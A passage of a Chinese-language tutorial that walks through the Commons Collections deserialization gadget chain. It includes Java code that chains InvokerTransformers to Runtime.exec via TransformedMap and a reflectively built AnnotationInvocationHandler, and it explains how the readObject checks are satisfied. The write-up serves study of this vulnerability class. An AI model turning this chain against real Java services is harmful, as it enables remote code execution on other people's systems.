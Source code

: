 

### 满足if条件

现在构造的主代码如下：

```java
        Transformer[] transformers = new Transformer[]{
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"}),
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        HashMap<Object,Object> map = new HashMap<>();
        map.put("key",null);
        Map<Object,Object> transformedMap = TransformedMap.decorate(map,null,chainedTransformer);
        Constructor AnnotationInvocationHandlerConstructor = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler").getDeclaredConstructor(Class.class,Map.class);
        AnnotationInvocationHandlerConstructor.setAccessible(true);
        AnnotationInvocationHandlerConstructor.newInstance(Target.class,transformedMap);
```

需要满足这两个if判断才能进到setValue，这里的name是通过getKey()取的“键”，即`map.put("key",null)`的"key"

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709173152920.png)

#### 满足if (memberType != null)

在上文的annotationType是调用getInstance()函数，获取给定注解类的AnnotationType实例，内部使用了CAS操作，具体很复杂，不在此深入了解。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709222252382.png)

但在getInstance内部有一句，调用了其私有构造函数

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709223750355.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709223816042.png)

构造函数把该注解类内部的所有方法名 put进了memberTypes

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240711170419681.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709223850683.png)

在调用annotation.memberTypes时，就返回了这个(name,invocationhandlerReturnType(type))的Map，

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709221815962.png)

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240709223944354.png)

总结一下，AnnotationInvocationHandler的readObject内的`Class<?> memberType = memberTypes.get(name);`做了什么呢？就是取出注解类中为name的方法名。
